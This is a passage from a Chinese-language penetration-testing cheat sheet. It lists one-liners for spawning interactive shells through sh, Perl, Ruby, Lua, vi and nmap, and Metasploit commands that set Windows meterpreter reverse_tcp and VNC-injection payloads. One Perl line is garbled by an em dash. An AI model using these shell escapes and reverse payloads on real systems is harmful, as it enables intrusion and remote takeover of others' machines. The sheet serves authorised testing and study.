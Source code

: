 ### 用sh模拟交互式shell

```
/bin/sh -i
```

### 用Perl模拟 TTY Shell

```
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```

### 用Ruby模拟 TTY Shell

```
exec "/bin/sh"
```

### 用Lua 模拟TTY Shell

```
os.execute('/bin/sh')
```

### 从Vi模拟TTY Shell

```
:!bash
```

### 用NMAP模拟TTY Shell 

```
!sh
```

## Metasploit 速查表

这是一个metasploit方便的速查手册。关于跳板技术可参看 [Meterpreter Pivoting](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/) 。

### Meterpreter Payloads

### Windows 反向meterpreter payload

| 命令                                          | 解释                    |
| --------------------------------------------- | ----------------------- |
| `set payload windows/meterpreter/reverse_tcp` | Windows 反向tcp payload |

### Windows VNC Meterpreter payload

| 命令                                                         | 解释                            |
| ------------------------------------------------------------ | ------------------------------- |
| `set payload windows/vncinject/reverse_tcp``set ViewOnly false` | Meterpreter Windows VNC Payload |
